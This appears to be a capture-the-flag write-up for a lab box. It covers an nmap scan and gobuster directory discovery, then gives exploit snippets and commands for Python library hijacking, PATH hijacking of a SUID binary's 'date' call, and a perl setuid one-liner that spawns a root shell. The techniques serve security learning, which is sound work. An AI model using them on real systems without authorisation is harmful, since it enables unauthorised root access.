



# namp

```bash 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-18 15:45 IST
Nmap scan report for 10.10.234.190
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

There are 2 ports open `22 ssh` and `80 http `

**Port 80**


Nothing interesting here.

## gobuster

Starting gobuster `/r` directory was found which was interesting. Running gobuster again with `ip/r` the new directory was found `/a` running it again and again found the full path `ip/r/a/b/b/i/t` and when looking at `/t` page there was nothing interesting but when looking in the source page the alice credential were found.


Using these credential to login ssh and it worked 


Running `sudo -l` 


we can use **Python Library Hijacking**. The reason being when we execute a Python file, the modules imported inside that Python  file are being check inside the current working directory first. If  those modules does not exist under the current working directory, Python looks for its own modules. 

With this technique, we can manipulate the module named **random** by creating the file called `random.py` in the same directory.

```py
import os
os.system ("/bin/bash")
```

Then run the command `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`


The file named **teaParty**, is a SUID binary which is owned by root



when running the program it gives `Segmentation fault (core dumped)`


we can understand from here is that there is a variable in the file that pulls the current date

So we can manipulate date path by creating a file called `date`

```bash
#!/bin/bash
/bin/bash -p
```

changing it permission `chmod +x date`. Now to export the path `export PATH= /home/rabbit:$PATH`


we get access to `hatter` looking in his directory found password.txt. Found password for hatter.


Now login ssh as hatter and running `sudo -l` . 



uploading and running  linPEAS we find that perl is setuid.


To find who can run the perl with `ls -l /usr/bin/perl` 



so the root and hatter group can run the file.

Looking in  [gtfobins](https://gtfobins.github.io/gtfobins/perl/#sudo) for perl  Capabilities


running `/usr/bin/perl  -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`


Found all the flags so the root flag is in user and user flag is in root.